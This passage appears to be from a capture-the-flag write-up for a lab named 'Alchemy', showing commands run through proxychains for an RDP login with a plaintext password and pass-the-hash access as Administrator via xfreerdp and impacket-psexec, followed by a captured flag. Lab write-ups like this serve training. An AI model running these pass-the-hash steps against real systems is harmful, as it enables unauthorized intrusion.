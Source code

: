```bash
┌──(root💀gobots)-[24Jun2024 19:20:13]-[/home/kali/SUT/Alchemy]
└─# proxychains xfreerdp /u:james /d:alchemy.htb /p:greenday /cert:ignore /v:172.16.0.2 /tls-seclevel:0 /timeout:80000

proxychains xfreerdp /u:Administrator /d:alchemy.htb /pth:731c191234d0934dee79dd57169c6da7 /cert:ignore /v:172.16.0.2 /tls-seclevel:0 /timeout:80000

proxychains impacket-psexec Administrator@172.16.0.2 -hashes :731c191234d0934dee79dd57169c6da7       
```
#### 1st flag
```bash
ALCHEMY{WhA7_50M37H1Ng_15n7_R1gH7}
```
![[Pasted image 20240624155134.png]]


![[Pasted image 20240621162141.png]]